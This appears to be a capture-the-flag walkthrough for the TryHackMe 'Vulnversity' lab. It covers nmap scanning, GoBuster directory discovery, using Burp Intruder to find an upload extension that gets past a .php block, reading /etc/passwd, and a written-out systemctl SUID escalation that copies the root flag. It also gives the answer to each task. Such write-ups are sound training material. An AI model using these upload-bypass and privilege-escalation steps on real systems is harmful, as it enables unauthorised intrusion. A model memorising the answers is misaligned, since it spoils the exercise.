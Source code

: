 # [Vulnversity][5]
Learn about active recon, web app attacks and privilege escalation.

### [TASK 2] Reconnaissance

Nmap Cheatsheet -> https://www.stationx.net/nmap-cheat-sheet/

Run the command `nmap -A <IP>` > [CHECK THE SCAN RESULT][1]

Scan the box, how many ports are open? **6**

What version of the squid proxy is running on the machine? **3.5.12**

How many ports will nmap scan if the flag *-p-400* was used? **400** <br>
> *-400* means start scanning from port 1 and scan till 400. To know more check [Nmap - Port Specification][2].

Using the nmap flag *-n* what will it not resolve? **DNS**

What is the most likely operating system this machine is running? **Ubuntu**


What port is the web server running on? **3333**

Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

> - It is always good idea to check for vulnerability. To do that run `nmap --script=vuln <IP>`
- Try **SSH** as port 22 is open and running OpenSSH. To do that run `ssh <IP>`
- Check the **website** as there is HTTP port. To do that, go to `<IP>:3333`.   



### [TASK 3] Locating directories using GoBuster

Let's start with a GoBuster Directory scan. Command and the location of wordlist is given. There are a lot of wordlist to choose from but for the sake of this room *small.txt* from *dirb* directory will enough.

![GoBuster Results](images/gobuster.jpg)

What is the directory that has an upload form page? **/internal/**

> Try to access all the directory and BAAM! */internal* has a upload page. If none of this would have worked, try other wordlist like *common.txt*. Also, **recursive** option can be used. DirBuster GUI version can be used too.

### [TASK 4] Compromise the webserver

Try upload a few file types to the server, what common extension seems to be blocked? **.php**

1. Intercept the request as show and send it to **Intruder**.
2. **Clear** variables and select ***.\<file_formart>*** and click on **Add**.
3. Under **Payloads** option, Load the *phpext.txt*. Make sure to uncheck **Payload Encoding**.
4. Click on **Start Attack**. Check the **Length** variable, one has a different length.

![Intruder Result](images/burpsuite.jpg)

Run this attack, what extension is allowed? **.phtml**

Follow the remote access steps. After uploading the file.

What is the name of the user who manages the webserver? **bill**
> To get the name, check /etc/psswd file. To do that, type `cat /etc/passwd` and you will see the name bill as a user.

What is the user flag?
> As we know *bill* is the user. Direct to /home/bill. Type, `cd /home/bill`. There is a file called **user.txt**. Check the content of the file using `cat user.txt`.

### [TASK 5] Privilege Escalation

On the system, search for all SUID files. What file stands out? **/bin/systemctl**

> To find SUIDs on a system, run `find / -perm -u=s -type f 2>/dev/null`. To know more, [Click Here][3]

Become root and get the last flag (/root/root.txt)
> Run this commands
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```
The data from the file *root.txt* is copied to a file called *output* in *tmp* directory.
`cat /tmp/output`. To know more, Check this [Reference][4]


[1]: https://gist.github.com/abhi-agrawl/87aa4e87f999c7ff3fc99e7a8d0e665e
[2]: https://blog.hackhunt.in/2021/02/nmap-port-specification.html
[3]: https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
[4]: https://gtfobins.github.io/gtfobins/systemctl/
[5]: https://tryhackme.com/room/vulnversity

